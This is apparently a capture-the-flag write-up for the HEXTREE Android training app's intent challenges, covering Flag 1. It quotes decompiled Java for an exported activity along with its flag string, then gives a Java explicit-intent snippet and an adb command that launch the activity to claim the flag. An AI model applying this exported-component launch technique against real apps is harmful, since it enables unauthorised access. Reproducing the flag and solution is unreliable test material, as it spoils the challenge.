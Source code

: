 +++
date = '2025-07-30T00:55:36+03:00'
draft = false
title = 'HEX Tree intent Challenges'
+++

This a writeup to all intent realated challenges 

### Flag 1
#### code analysis
```java
public class Flag1Activity extends AppCompactActivity {
    public Flag1Activity() {
        this.name = "Flag 1 - Basic exported activity";
        this.flag = "zABitOReWutKdkrMKx2NPVXklOmLz1SB85u2kJjUe1ojI9LMWkbEKkjANz15WHmb";
    }

    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);  
        this.f.addTag("basic-main-activity-avd2");
        success(this);
    }
```

When this activity called it's constructor will set the activity's name to "Flag 1 - Basic exported activity" and initializes a flag variable.This LogHelper is used to add a tag named "basic-main-activity-avd2" and method success is called 

#### Solution

so just by lunching this activity the method will be executed and that can be called with Explicit intent . from code we find:
1. package= **"io.hextree.attacksurface"**
2. class name : **io.hextree.attacksurface.activities.Flag1Activity**

Java:
```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag1Activity"
)); 
startActivity(EvilIntent);  
```

![[flag1.png]]

ADB:
```shell
adb shell am start-activity io.hextree.attacksurface/io.hextree.attacksurface.activities.Flag1Activity

```
